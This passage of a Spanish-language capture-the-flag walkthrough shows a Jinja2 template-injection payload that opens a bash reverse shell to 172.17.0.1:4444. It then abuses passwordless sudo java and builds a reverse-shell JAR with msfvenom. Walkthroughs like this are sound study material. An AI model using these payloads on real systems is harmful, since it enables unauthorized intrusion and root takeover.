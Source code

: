 Al intentarlo nos regresa un **"Hello 14!"** lo cual significa que efectivamente podemos ejecutar comandos.

### Payload de reverse shell
Utilizaremos el siguiente payload para obtener una reverse shell:

```python
{{ request.application.__globals__.__builtins__.__import__('os').popen('bash -c "/bin/bash -i >& /dev/tcp/172.17.0.1/4444 0>&1"').read() }}
```

**Fuente:** Este payload puede ser encontrado en el repositorio [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) o en el libro [HackTricks](https://book.hacktricks.xyz/) en la sección de SSTI.

## Escalada de Privilegios

### Enumeración inicial
Al estar en la consola vamos a identificar nuestros privilegios para proceder a elevar privilegios:

```bash
sudo -l
```

Y nos sale:

```
Matching Defaults entries for pinguinazo on 2b4523447622:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pinguinazo may run the following commands on 2b4523447622:
    (ALL) NOPASSWD: /usr/bin/java
```

### Análisis de privilegios
Podemos ver que nuestro usuario puede ejecutar `sudo` junto al binario de `java` sin necesidad de contraseña, el cual vamos a tener que investigar para usar esto para comprometer el sistema.

En [GTFOBins](https://gtfobins.github.io/) no encontramos información relevante, así que procedemos con una aproximación diferente.

### Explotación con Java JAR malicioso
Si podemos ejecutar java como root, podemos ejecutar una reverse shell con extensión `.jar` que nos otorgará una shell como el usuario root.

#### Creación del payload
Usando la herramienta `msfvenom` creamos un `shell.jar` el cual nos permitirá hacer lo mencionado anteriormente:

```bash
msfvenom -p java/shell_reverse_tcp LHOST=172.17.0.1 LPORT=5555 -f jar -o shell.jar
```
